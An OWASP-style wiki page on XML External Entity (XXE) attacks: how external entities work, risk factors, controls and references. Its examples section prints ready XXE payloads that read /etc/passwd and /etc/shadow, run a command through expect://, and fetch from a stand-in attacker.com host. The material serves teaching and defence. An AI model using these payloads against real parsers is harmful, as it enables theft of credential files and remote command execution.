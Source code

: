 ```yaml
---

layout: col-sidebar
title: XML External Entity (XXE) Processing.md
author: 
contributors: 
permalink: /vulnerabilities/XML_External_Entity_(XXE)_Processing
tag: vulnerability, XML External Entity (XXE) Processing.md
auto-migrated: 1

---
```


Last revision (mm/dd/yy): **//**

[Vulnerabilities Table of Contents](ASDR_TOC_Vulnerabilities "wikilink")

## Description

An <i>XML External Entity</i> attack is a type of attack against an
application that parses XML input. This attack occurs when <b>XML input
containing a reference to an external entity is processed by a weakly
configured XML parser</b>. This attack may lead to the disclosure of
confidential data, denial of service, server side request forgery, port
scanning from the perspective of the machine where the parser is
located, and other system impacts.

The [XML 1.0 standard](http://www.w3.org/TR/REC-xml/) defines the
structure of an XML document. The standard defines a concept called an
entity, which is a storage unit of some type. There are a few different
types of entities, [external general/parameter parsed
entity](http://www.w3.org/TR/REC-xml/#sec-external-ent) often shortened
to **external entity**, that can access local or remote content via a
declared system identifier. The system identifier is assumed to be a URI
that can be dereferenced (accessed) by the XML processor when processing
the entity. The XML processor then replaces occurrences of the named
external entity with the contents dereferenced by the system identifier.
If the system identifier contains tainted data and the XML processor
dereferences this tainted data, the XML processor may disclose
confidential information normally not accessible by the application.
Similar attack vectors apply the usage of external DTDs, external
stylesheets, external schemas, etc. which, when included, allow similar
external resource inclusion style attacks.

Attacks can include disclosing local files, which may contain sensitive
data such as passwords or private user data, using file: schemes or
relative paths in the system identifier. Since the attack occurs
relative to the application processing the XML document, an attacker may
use this trusted application to pivot to other internal systems,
possibly disclosing other internal content via http(s) requests or
launching a [CSRF](CSRF "wikilink") attack to any unprotected internal
services. In some situations, an XML processor library that is
vulnerable to client-side memory corruption issues may be exploited by
dereferencing a malicious URI, possibly allowing arbitrary code
execution under the application account. Other attacks can access local
resources that may not stop returning data, possibly impacting
application availability if too many threads or processes are not
released.

Note that the application does not need to explicitly return the
response to the attacker for it to be vulnerable to information
disclosures. An attacker can leverage DNS information to exfiltrate data
through subdomain names to a DNS server that he/she controls.

## Risk Factors

  - The application parses XML documents.
  - Tainted data is allowed within the system identifier portion of the
    entity, within the [document type
    declaration](http://www.w3.org/TR/REC-xml/#sec-prolog-dtd) (DTD).
  - The XML processor is configured to validate and process the DTD.
  - The XML processor is configured to resolve external entities within
    the DTD.

## Examples

The examples below are from [Testing for XML Injection
(OWASP-DV-008)](Testing_for_XML_Injection_\(OWASP-DV-008\) "wikilink").

### Accessing a local resource that may not return

**`<?xml``   ``version="1.0"``   ``encoding="ISO-8859-1"?>`
`<!DOCTYPE``   ``foo``   ``[` `<!ELEMENT``   ``foo``   ``ANY``   ``>`
`<!ENTITY``   ``xxe``   ``SYSTEM``   ``"file:///dev/random"``
 ``>]><foo>&xxe;</foo>`**

## Remote Code Execution

If fortune is on our side, and the PHP "expect" module is loaded, we can
get RCE. Let’s modify the payload

`'''`

<?xml version="1.0" encoding="ISO-8859-1"?>

'''

*`'``   ``<!DOCTYPE``   ``foo``   ``[``   ``<!ELEMENT``   ``foo``
 ``ANY``   ``>`*`'`
*`'``   ``<!ENTITY``   ``xxe``   ``SYSTEM``   ``"expect://id"``
 ``>]>`*`'`
` `*`'``   `<creds>*`'`
` `*`'``   `<user>`&xxe;`</user>*`'`
` `*`'``   `<pass>`mypass`</pass>*`'`
` `*`'``   `</creds>*`'`

### Disclosing /etc/passwd or other targeted files

`''' `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///etc/passwd>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///etc/shadow>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///c:/boot.ini>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]>`<foo>`&xxe;`</foo>`'''`

## Related [Attacks](Attacks "wikilink")

  - [SQL Injection](SQL_Injection "wikilink")
  - [Blind SQL Injection](Blind_SQL_Injection "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [Missing XML Validation](Missing_XML_Validation "wikilink")

## Related [Controls](Controls "wikilink")

Since the whole XML document is communicated from an untrusted client,
it's not usually possible to selectively
[validate](Input_Validation "wikilink") or escape tainted data within
the system identifier in the DTD. Therefore, the XML processor should be
configured to use a local static DTD and disallow any declared DTD
included in the XML document.

Detailed guidance on how to disable XXE processing, or otherwise defend
against XXE attacks is presented in the [XML External Entity (XXE)
Prevention Cheat
Sheet](XML_External_Entity_\(XXE\)_Prevention_Cheat_Sheet "wikilink").

## References

  - OWASP [XML External Entity (XXE) Prevention Cheat
    Sheet](XML_External_Entity_\(XXE\)_Prevention_Cheat_Sheet "wikilink")
  - [Timothy Morgan's 2014 Paper: XML Schema, DTD, and Entity Attacks -
    A Compendium of Known
    Techniques](http://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf)
  - [Precursor presentation of above paper - at OWASP AppSec
    USA 2013](http://2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf)
  - [CWE-611: Information Exposure Through XML External Entity
    Reference](http://cwe.mitre.org/data/definitions/611.html)
  - [CWE-827: Improper Control of Document Type
    Definition](http://cwe.mitre.org/data/definitions/827.html)
  - [Sascha Herzog's Presentation on XML External Entity Attacks - at
    OWASP AppSec
    Germany 2010](https://www.owasp.org/images/5/5d/XML_Exteral_Entity_Attack.pdf)
  - [PostgreSQL XXE
    vulnerability](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-3489)
  - [SharePoint and DotNetNuke XXE Vulnerabilities, in
    French](http://www.agarri.fr/kom/archives/2011/09/15/failles_de_type_xee_dans_sharepoint_et_dotnetnuke/index.html)
  - [XML Denial of Service Attacks and Defenses (in
    .NET)](http://msdn.microsoft.com/en-us/magazine/ee335713.aspx)
  - [Early (2002) BugTraq Article on
    XXE](http://www.securityfocus.com/archive/1/297714/2002-10-27/2002-11-02/0)

[Category:API_Abuse](Category:API_Abuse "wikilink")